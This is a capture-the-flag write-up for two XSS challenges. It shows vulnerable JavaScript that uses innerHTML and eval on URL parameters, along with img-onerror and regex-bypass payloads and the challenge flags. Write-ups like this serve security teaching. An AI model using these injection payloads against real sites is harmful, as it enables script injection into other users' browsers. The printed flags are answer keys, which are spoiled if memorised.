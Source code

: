 ```yaml
---
ai_date: 2025-04-27 05:26:27
ai_summary: XSS exploitation using `img.onerror` in the first challenge and regex-based `eval()` in the second challenge.
ai_tags:
  - xss
  - regex
  - eval
created: 2025-03-01T14:15
points: 100
solves: 22
updated: 2025-07-14T09:46
---
```


## XSS 1

```js
window.onload = () => {
	const urlParams = new URLSearchParams(window.location.search);
	let helloParam = urlParams.get('hello');
	if (!helloParam) {
		helloParam = '@Hack 2025'; // Default value
	}
	document.getElementById('hello').innerHTML = helloParam;
};
```

To exploit this we simply use `img.onerror`.

```html
<img src=0 onerror=console('I_FOUND_AN_XSS!!!')>
```

```
hello=%3Cimg%20src=0%20onerror=console.log(%22I_FOUND_AN_XSS!!!%22)%3E
```

```flag
ATHACKCTF{0xAAY0U_DID_FIND_AN_X55_HA0xFFHAHA}
```

## XSS 2

```js
function isValidMathExpression(input) {
	const regex = /^(.+[\+,\-,\*,\/].+)$/gm;
	return regex.test(input);
}
```

We just need to match the regex and the url param will be `eval()`ed.

```js
console.log('I_FOUND_AN_XSS!!!');-2
```

```
display=console.log(%22I_FOUND_AN_XSS!!!%22);-2
```

```flag
ATHACKCTF{R3g3X5S_IS_N0T_EN0uGH_0x7F}
```